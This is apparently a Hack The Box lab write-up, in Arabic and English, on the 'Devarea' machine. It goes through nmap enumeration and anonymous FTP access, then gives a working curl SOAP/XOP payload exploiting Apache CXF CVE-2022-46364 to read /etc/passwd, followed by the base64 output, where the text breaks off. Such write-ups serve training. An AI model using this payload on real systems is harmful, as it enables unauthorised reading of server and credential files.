Devarea HTB Write-up
توثيق تقني محفوظ من المصدر الأصلي في Notion، يشمل الخطوات والأوامر والنتائج ولقطات الشاشة المتاحة.
العودة إلى تقارير CTFThis will be the devarea machine penetration test report we in 12 مايو 2026 10:48 م
enumeration
*by using sudo nmap -A \<target IP \> we have :*
هنا قمت بتشغيل الأداة بصلاحيات الجذر sudo (الـ Root)، وهو أمر ضروري في Nmap لتفعيل الخيارات المتقدمة مثل فحص أنظمة التشغيل وإرسال حزم بيانات مخصصة (Raw Packets).
-A: هذا الخيار يُسمى Aggressive scan (الفحص الهجومي/المكثف)، وهو يدمج 4 أشياء معاً:1
- فحص نظام التشغيل (OS detection).
- فحص إصدارات الخدمات (Version detection).
- تشغيل الاسكربتات الافتراضية الذكية (Script scanning).
- تتبع مسار الحزم (Traceroute).
─$ sudo nmap -A 10.129.244.208
[sudo] password for kali:
Starting Nmap 7.98 ( https://nmap.org ) at 2026-05-16 00:04 +0300
Nmap scan report for 10.129.244.208
Host is up (0.16s latency).
Not shown: 994 closed tcp ports (reset)
PORT STATE SERVICE VERSION
21/tcp open ftp vsftpd 3.0.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x 2 ftp ftp 4096 Sep 22 2025 pub
| ftp-syst:
| STAT:
| FTP server status:
| Connected to ::ffff:10.10.16.38
| Logged in as ftp
| TYPE: ASCII
| No session bandwidth limit
| Session timeout in seconds is 300
| Control connection is plain text
| Data connections will be plain text
| At session startup, client count was 1
| vsFTPd 3.0.5 - secure, fast, stable
|_End of status
22/tcp open ssh OpenSSH 9.6p1 Ubuntu 3ubuntu13.15 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 256 83:13:6b:a1:9b:28:fd:bd:5d:2b:ee:03:be:9c:8d:82 (ECDSA)
|_ 256 0a:86:fa:65:d1:20:b4:3a:57:13:d1:1a:c2:de:52:78 (ED25519)
80/tcp open http Apache httpd 2.4.58
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Did not follow redirect to http://devarea.htb/
8080/tcp open http Jetty 9.4.27.v20200227
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(9.4.27.v20200227)
8500/tcp open http Golang net/http server
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
| fingerprint-strings:
| FourOhFourRequest:
| HTTP/1.0 500 Internal Server Error
| Content-Type: text/plain; charset=utf-8
| X-Content-Type-Options: nosniff
| Date: Fri, 15 May 2026 21:04:49 GMT
| Content-Length: 64
| This is a proxy server. Does not respond to non-proxy requests.
| GenericLines, Help, LPDString, RTSPRequest, SIPOptions, SSLSessionReq, Socks5:
| HTTP/1.1 400 Bad Request
| Content-Type: text/plain; charset=utf-8
| Connection: close
| Request
| GetRequest, HTTPOptions:
| HTTP/1.0 500 Internal Server Error
| Content-Type: text/plain; charset=utf-8
| X-Content-Type-Options: nosniff
| Date: Fri, 15 May 2026 21:04:31 GMT
| Content-Length: 64
|_ This is a proxy server. Does not respond to non-proxy requests.
8888/tcp open http Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Hoverfly Dashboard
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8500-TCP:V=7.98%I=7%D=5/16%Time=6A078A5E%P=x86_64-pc-linux-gnu%r(Ge
SF:nericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20t
SF:ext/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x
SF:20Request")%r(GetRequest,E9,"HTTP/1\.0\x20500\x20Internal\x20Server\x20
SF:Error\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nX-Content-Typ
SF:e-Options:\x20nosniff\r\nDate:\x20Fri,\x2015\x20May\x202026\x2021:04:31
SF:\x20GMT\r\nContent-Length:\x2064\r\n\r\nThis\x20is\x20a\x20proxy\x20ser
SF:ver\.\x20Does\x20not\x20respond\x20to\x20non-proxy\x20requests\.\n")%r(
SF:HTTPOptions,E9,"HTTP/1\.0\x20500\x20Internal\x20Server\x20Error\r\nCont
SF:ent-Type:\x20text/plain;\x20charset=utf-8\r\nX-Content-Type-Options:\x2
SF:0nosniff\r\nDate:\x20Fri,\x2015\x20May\x202026\x2021:04:31\x20GMT\r\nCo
SF:ntent-Length:\x2064\r\n\r\nThis\x20is\x20a\x20proxy\x20server\.\x20Does
SF:\x20not\x20respond\x20to\x20non-proxy\x20requests\.\n")%r(RTSPRequest,6
SF:7,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x
SF:20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%
SF:r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/
SF:plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Re
SF:quest")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConte
SF:nt-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\
SF:n400\x20Bad\x20Request")%r(FourOhFourRequest,E9,"HTTP/1\.0\x20500\x20In
SF:ternal\x20Server\x20Error\r\nContent-Type:\x20text/plain;\x20charset=ut
SF:f-8\r\nX-Content-Type-Options:\x20nosniff\r\nDate:\x20Fri,\x2015\x20May
SF:\x202026\x2021:04:49\x20GMT\r\nContent-Length:\x2064\r\n\r\nThis\x20is\
SF:x20a\x20proxy\x20server\.\x20Does\x20not\x20respond\x20to\x20non-proxy\
SF:x20requests\.\n")%r(LPDString,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\
SF:nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\
SF:r\n\r\n400\x20Bad\x20Request")%r(SIPOptions,67,"HTTP/1\.1\x20400\x20Bad
SF:\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnect
SF:ion:\x20close\r\n\r\n400\x20Bad\x20Request")%r(Socks5,67,"HTTP/1\.1\x20
SF:400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\
SF:r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request");
Device type: general purpose
Running: Linux 5.X
OS CPE: cpe:/o:linux:linux_kernel:5
OS details: Linux 5.0 - 5.14
Network Distance: 2 hops
Service Info: Host: _; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
TRACEROUTE (using port 1025/tcp)
HOP RTT ADDRESS
1 179.27 ms 10.10.16.1
2 72.46 ms 10.129.244.208
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 47.26 seconds


المنفذ 21: خدمة نقل الملفات (FTP)
PORT STATE SERVICE VERSION
21/tcp open ftp vsftpd 3.0.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x 2 ftp ftp 4096 Sep 22 2025 pubالمنفذ 21 يعمل ببروتوكول TCP وهو مفتوح (open). الخدمة هي FTP (نقل الملفات)، والبرنامج المسؤول عنها وإصداره هو vsftpd 3.0.5.
في السطر الثالث هنا قام الـ Script الافتراضي لـ Nmap باكتشاف ثغرة في الإعدادات (Misconfiguration) تسمى Anonymous FTP login. تعني أن أي شخص يمكنه الدخول إلى السيرفر بدون اسم مستخدم وكلمة مرور (أو باستخدام اسم anonymous). ويوضح وجود مجلد باسم pub وصلاحياته تسمح بالقراءة والدخول (drwxr-xr-x). كـ Tester، خطوتك التالية هي الدخول فوراً عبر الـ Terminal لرؤية ما بداخل هذا المجلد!
المنفذ 22: خدمة الاتصال الآمن (SSH)
22/tcp open ssh OpenSSH 9.6p1 Ubuntu 3ubuntu13.15 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 256 83:13:6b:a1:9b:28:fd:bd:5d:2b:ee:03:be:9c:8d:82 (ECDSA)
|_ 256 0a:86:fa:65:d1:20:b4:3a:57:13:d1:1a:c2:de:52:78 (ED25519)- منفذ التحكم عن بعد المشفر SSH مفتوح. يعمل بإصدار OpenSSH 9.6p1.
- نظام التشغيل الخاص بالهدف تم كشفه هنا بدقة، مكتوب Ubuntu Linux. البرامج دائماً تسرب اسم نظام التشغيل الأساسي.
المنفذ 80: خادم الويب الافتراضي (HTTP)
80/tcp open http Apache httpd 2.4.58
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Did not follow redirect to http://devarea.htb/منفذ مواقع الويب العادي مفتوح، ويعمل بواسطة أشهر خادم ويب وهو Apache بإصدار 2.4.58 على بيئة Ubuntu على الرابط http://devarea.htb/ يجب ان نقوم تسجيله في ملف المضيفين <br>عن طريق الام التالي :
echo '<Target-IP> devarea.htb' | sudo tee -a /etc/hostsلن تفتح معك هذه الصفحة في المتصفح إلا إذا قمت بإضافة هذا الـ Domain والـ IP في ملف الـ hosts
المنفذ 8080: خادم ويب بديل (HTTP - Jetty)
8080/tcp open http Jetty 9.4.27.v20200227
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(9.4.27.v20200227)هناك خادم ويب آخر يعمل على المنفذ الشهير 8080، ولكنه ليس Apache، بل هو خادم ويب مبني على الجافا يسمى Jetty بإصدار قديم نسبياً (من عام 2020)السيرفر رد بـ "الصفحة غير موجودة"، مما يعني أن المسار الرئيسي فارغ، ويحتاج لعملية تخمين للمسارات والمجلدات (Directory Brute Forcing) باستخدام أدوات مثل Gobuster أو Dirbuster
<br><br>
<br><br>
المنفذ 8500: خادم ويب مخصص بلغة Go (Golang)
8500/tcp open http Golang net/http server
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
| fingerprint-strings:
...
| This is a proxy server. Does not respond to non-proxy requests.هذا المنفذ يعمل كخادم ويب مبرمج بلغة Go (Golang)، ولا يحتوي على عنوان للموقع (Title)، والبيانات المرجعة هي نصوص عادية (text/plain)
- الجزء الطويل المليء بالرموز الست عشرية (Hexadecimal) بالأسفل هو Fingerprint (بصمة)، وهو محاولة Nmap لتخمين ما يفعله المنفذ لأن الخدمة غير معيارية.
- الجملة الأهم التي استخرجتها الأداة هي:
This is a proxy server. Does not respond to non-proxy requests. - هذا يعني أن المنفذ 8500 يعمل كـ Proxy Server (سيرفر وكيل)، ويرفض الاستجابة للطلبات العادية، مما يفتح لك باباً للتفكير في ثغرات مثل الـ Server-Side Request Forgery (SSRF) أو إساءة استخدام البروكسي لاختراق الشبكة الداخلية.<br><br>
المنفذ 8888: لوحة تحكم Hoverfly
8888/tcp open http Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Hoverfly Dashboard- منفذ ويب آخر يعمل بلغة Go، والـ Title الخاص به واضح جداً: Hoverfly Dashboard.
- أداة Hoverfly هي أداة مفتوحة المصدر تُستخدم لمحاكاة وتطوير واجهات برمجة التطبيقات (API Simulation/Mocking). وجود لوحة تحكم (Dashboard) مفتوحة بدون كلمة مرور قد تمنحك تحكماً كاملاً أو معلومات حساسة جداً عن الـ APIs الخاصة بالموقع.
-
execution
Targeting FTP
الهدف الأول سهل ومباشر: اتصل بـ FTP كـ Anonymous عبر ftp@anonymous@10.129.244.208 ثم اكتب اسم المستخدم anonymous واضغط انتر بدون باسوورد، وتفقد ما بداخل مجلد pub
─(kali㉿kali)-[~/Downloads]
└─$ ftp anonymous@10.129.244.208
Connected to 10.129.244.208.
220 (vsFTPd 3.0.5)
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||48300|)
150 Here comes the directory listing.
drwxr-xr-x 2 ftp ftp 4096 Sep 22 2025 pub
226 Directory send OK
ftp> pwd
Remote directory: /pub
ls -la
229 Entering Extended Passive Mode (|||43227|)
150 Here comes the directory listing.
drwxr-xr-x 2 ftp ftp 4096 Sep 22 2025 .
drwxr-xr-x 3 ftp ftp 4096 Sep 22 2025 ..
-rw-r--r-- 1 ftp ftp 6445030 Sep 22 2025 employee-service.jar
226 Directory send OK.
ftp> get employee-service.jar
local: employee-service.jar remote: employee-service.jar
229 Entering Extended Passive Mode (|||42837|)
150 Opening BINARY mode data connection for employee-service.jar (6445030 bytes).
100% |***************************************************************| 6293 KiB 1.69 MiB/s 00:00 ETA
226 Transfer complete.
6445030 bytes received in 00:03 (1.62 MiB/s)
ftp> exit
221 Goodbye.لقد قمت بتحميل ملف بحجم 6.2 ميجابايت تقريباً باسم employee-service.jar من مستودع الـ FTP. هذا الملف يمثل تطبيقاً مكتوباً بلغة Java (غالباً هو ملف مطور باستخدام إطار عمل Spring Boot لأنه يعمل كـ Microservice لإدارة الموظفين)
اقترح استخدام اداة jd-gui لعرض ملفات ال jar بدون الحاجة الى فك ضغط الملف وايضا لعرض الاكواد كما كتبها المبرمج بدون رموز غريبة
الـ JAR بيورينا الـ backend code بدون ما نعمل reverse engineering معقد. CXF version قديم → CVE-2022-463

عنوان ملف ال wsdl http://\<target-ip\>:8080/employeeservice?wsdl

return greeting + ". Department: " + report.getDepartment() + ". Content: " + report.getContent();السيرفر يأخذ محتويات النصوص التي نرسلها ويعيد طباعتها لنا في الاستجابة! هذا يعني أنه إذا نجحنا في حقن كيان خارجي (Entity) داخل حقل مثل content أو department، سيقوم السيرفر بقراءة الملف الداخلي الذي نطلبه ويطبعه لنا مباشرة في النتيجة (In-band XXE)
بعد فحص الملفات الثغرة المحتملة هنا (The Vulnerability Concept):
بما أننا نتعامل مع خدمة ويب تستقبل تقريرًا (Report) يحتوي على نصوص ويتم معالجتها بواسطة مكتبة Apache CXF أو بيئة الجافا، فإن الهدف الأساسي هنا هو محاولة إرسال طلب تلاعب (Malicious SOAP Request) يحتوي على حمولة (Payload) تستهدف دمج النصوص أو استغلال ثغرة حقن

<wsdl:definitions name="EmployeeServiceService" targetNamespace="http://devarea.htb/">
<wsdl:types>
<xs:schema elementFormDefault="unqualified" targetNamespace="http://devarea.htb/" version="1.0">
<xs:element name="submitReport" type="tns:submitReport"/>
<xs:element name="submitReportResponse" type="tns:submitReportResponse"/>
<xs:complexType name="submitReport">
<xs:sequence>
<xs:element minOccurs="0" name="arg0" type="tns:report"/>
</xs:sequence>
</xs:complexType>
<xs:complexType name="report">
<xs:sequence>
</xs:sequence>
</xs:complexType>
<xs:complexType name="submitReportResponse">
<xs:sequence>
<xs:element minOccurs="0" name="return" type="xs:string"/>
</xs:sequence>
</xs:complexType>
</xs:schema>
</wsdl:types>
<wsdl:message name="submitReport">
</wsdl:message>
<wsdl:message name="submitReportResponse">
<wsdl:part element="tns:submitReportResponse" name="parameters"> </wsdl:part>
</wsdl:message>
<wsdl:portType name="EmployeeService">
<wsdl:operation name="submitReport">
<wsdl:input message="tns:submitReport" name="submitReport"> </wsdl:input>
<wsdl:output message="tns:submitReportResponse" name="submitReportResponse"> </wsdl:output>
</wsdl:operation>
</wsdl:portType>
<wsdl:binding name="EmployeeServiceServiceSoapBinding" type="tns:EmployeeService">
<soap:binding style="document" transport="http://schemas.xmlsoap.org/soap/http"/>
<wsdl:operation name="submitReport">
<soap:operation soapAction="" style="document"/>
<wsdl:input name="submitReport">
<soap:body use="literal"/>
</wsdl:input>
<wsdl:output name="submitReportResponse">
</wsdl:output>
</wsdl:operation>
</wsdl:binding>
<wsdl:service name="EmployeeServiceService">
<wsdl:port binding="tns:EmployeeServiceServiceSoapBinding" name="EmployeeServicePort">
<soap:address location="http://10.129.244.208:8080/employeeservice"/>
</wsdl:port>Critical Observations
<table header-row="true">
<tr>
<td>Finding</td>
<td>Implication</td>
</tr>
<tr>
<td>Apache CXF JAX-WS implementation</td>
<td>SOAP web service framework</td>
</tr>
<tr>
<td>Running on Jetty 9.4.27</td>
<td>Released in 2020 - old and vulnerable</td>
</tr>
<tr>
<td>Endpoint: /employeeservice</td>
<td>Exposed SOAP service</td>
</tr>
<tr>
<td>WSDL available</td>
<td>Service definition publicly accessible</td>
</tr>
</table>
استغلال الثغرة (CVE-2022-46364) — File Read
عبر البحث وجت هذا ال poc واستخدمته :
curl -s -X POST http://10.129.244.208:8080/employeeservice \
-H "Content-Type: multipart/related; type=\"application/xop+xml\"; boundary=----boundary" \
--data-binary $'------boundary\r\nContent-Type: application/xop+xml; charset=UTF-8; type="text/xml"\r\nContent-ID: <root>\r\n\r\n<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:dev="http://devarea.htb/" xmlns:xop="http://www.w3.org/2004/08/xop/include">\r\n <soapenv:Body>\r\n <dev:submitReport>\r\n <arg0>\r\n <content>\r\n <xop:Include href="file:///etc/passwd"/>\r\n </content>\r\n </arg0>\r\n </dev:submitReport>\r\n </soapenv:Body>\r\n</soapenv:Envelope>\r\n------boundary--'
# result النتيجة ⬇️⬇️
<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><ns2:submitReportResponse xmlns:ns2="http://devarea.htb/"><return>Report received from null. Department: null. Content: cm9vdDp4OjA6MDpyb290Oi9yb290Oi9iaW4vYmFzaApkYWVtb246eDoxOjE6ZGFlbW9uOi91c3Ivc2JpbjovdXNyL3NiaW4vbm9sb2dpbgpiaW46eDoyOjI6YmluOi9iaW46L3Vzci9zYmluL25vbG9naW4Kc3lzOng6MzozOnN5czovZGV2Oi91c3Ivc2Jpbi9ub2xvZ2luCnN5bmM6eDo0OjY1NTM0OnN5bmM6L2JpbjovYmluL3N5bmMKZ2FtZXM6eDo1OjYwOmdhbWVzOi91c3IvZ2FtZXM6L3Vzci9zYmluL25vbG9naW4KbWFuOng6NjoxMjptYW46L3Zhci9jYWNoZS9tYW46L3Vzci9zYmluL25vbG9naW4KbHA6eDo3Ojc6bHA6L3Zhci9zcG9vbC9scGQ6L3Vzci9zYmluL25vbG9naW4KbWFpbDp4Ojg6ODptYWlsOi92YXIvbWFpbDovdXNyL3NiaW4vbm9sb2dpbgpuZXdzOng6OTo5Om5ld3M6L3Zhci9zcG9vbC9uZXdzOi91c3Ivc2Jpbi9ub2xvZ2luCnV1Y3A6eDoxMDoxMDp1dWNwOi92YXIvc3Bvb2wvdXVjcDovdXNyL3NiaW4vbm9sb2dpbgpwcm94eTp4OjEzOjEzOnByb3h5Oi9iaW46L3Vzci9zYmluL25vbG9naW4Kd3d3LWRhdGE6eDozMzozMzp3d3ctZGF0YTovdmFyL3d3dzovdXNyL3NiaW4vbm9sb2dpbgpiYWNrdXA6eDozNDozNDpiYWNrdXA6L3Zhci9iYWNrdXBzOi91c3Ivc2Jpbi9ub2xvZ2luCmxpc3Q6eDozODozODpNYWlsaW5nIExpc3QgTWFuYWdlcjovdmFyL2xpc3Q6L3Vzci9zYmluL25vbG9naW4KaXJjOng6Mzk6Mzk6aXJjZDovcnVuL2lyY2Q6L3Vzci9zYmluL25vbG9naW4KX2FwdDp4OjQyOjY1NTM0Ojovbm9uZXhpc3RlbnQ6L3Vzci9zYmluL25vbG9naW4Kbm9ib2R5Ong6NjU1MzQ6NjU1MzQ6bm9ib2R5Oi9ub25leGlzdGVudDovdXNyL3NiaW4vbm9sb2dpbgpzeXN0ZW1kLW5ldHdvcms6eDo5OTg6OTk4OnN5c3RlbWQgTmV0d29yayBNYW5hZ2VtZW50Oi86L3Vzci9zYmluL25vbG9naW4Kc3lzdGVtZC10aW1lc3luYzp4Ojk5Nzo5OTc6c3lzdGVtZCBUaW1lIFN5bmNocm9uaXphdGlvbjovOi91c3Ivc2Jpbi9ub2xvZ2luCm1lc3NhZ2VidXM6eDoxMDE6MTAyOjovbm9uZXhpc3RlbnQ6L3Vzci9zYmluL25vbG9naW4Kc3lzdGVtZC1yZXNvbHZlOng6OTkyOjk5MjpzeXN0ZW1kIFJlc29sdmVyOi86L3Vzci9zYmluL25vbG9naW4KcG9sbGluYXRlOng6MTAyOjE6Oi92YXIvY2FjaGUvcG9sbGluYXRlOi9iaW4vZmFsc2UKcG9sa2l0ZDp4Ojk5MTo5OTE6VXNlciBmb3IgcG9sa2l0ZDovOi91c3Ivc2Jpbi9ub2xvZ2luCnN5c2xvZzp4OjEwMzoxMDQ6Oi9ub25leGlzdGVudDovdXNyL3NiaW4vbm9sb2dpbgp1dWlk